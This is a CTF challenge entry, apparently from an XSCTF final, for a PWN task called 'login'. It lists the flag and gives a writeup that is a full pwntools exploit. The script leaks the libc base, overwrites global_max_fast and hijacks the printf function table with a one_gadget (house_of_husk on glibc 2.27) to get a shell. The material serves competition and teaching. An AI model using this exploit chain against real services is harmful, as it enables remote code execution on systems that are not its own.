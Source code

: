 - **题目名称：** login    （视决赛解题情况而放）
- **题目类型：** PWN  （决赛）
- **题目难度：** 中等偏下(?)
- **出题人：** i-Corner
- **考点：**

1. IO or house_of_husk
1. 检索+耐心

- **描述：** 跑路结束！原神，启动！尘歌壶，养猪！
- **flag：** XSCTF{C0ngratulati0n_u_are_the_real_her0}
- **Writeup：**

```python
from pwn import *
#p = process("./login")
#p = process(["./pwn"],env={"LD_PRELOAD":'./libc-2.27.so'})
#gdb.attach(p)
#pause()
p = remote("0.0.0.0",10001)
context.log_level='debug'
#define MAIN_ARENA       0x3ebc40
#define MAIN_ARENA_DELTA 0x60
#define GLOBAL_MAX_FAST  0x3ed940
#define PRINTF_FUNCTABLE 0x3f0738
#define PRINTF_ARGINFO   0x3ec870
#ARGTABLE_Size = (0x3ec870-0x3ebc40)*2 - 0x10 = 0x1850
#FUNCTABLE_Size = (0x3f0738-0x3ebc40)*2 - 0x10 = 0x95e0
# use python to calculate

p.sendlineafter("What size of a pig you want?\n",str(0x1850)) 

p.sendlineafter("Wow! You can get a new size of a pig!",str(0x95e0)) #local 


libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3ebca0
global_max_fast = libc_base + 0x3ed940
print('libc:',hex(libc_base))
print('global_max_fast',hex(global_max_fast))

#p.sendafter("New name:",b'/bin/sh\x00'+p64(global_max_fast-0x10))
p.sendafter("New name:",b'a'*0x8+p64(global_max_fast-0x10))
p.sendlineafter("Which one?\n",'1')
#gdb.attach(p)
one_gadget = 0x10a2fc+libc_base
#gdb.attach(p)
#pause()

p.sendafter("Feed what?",b'a'*((ord('s')-2)*8)+p64(one_gadget))

# when call printf('%s') then getshell 
p.interactive()


```
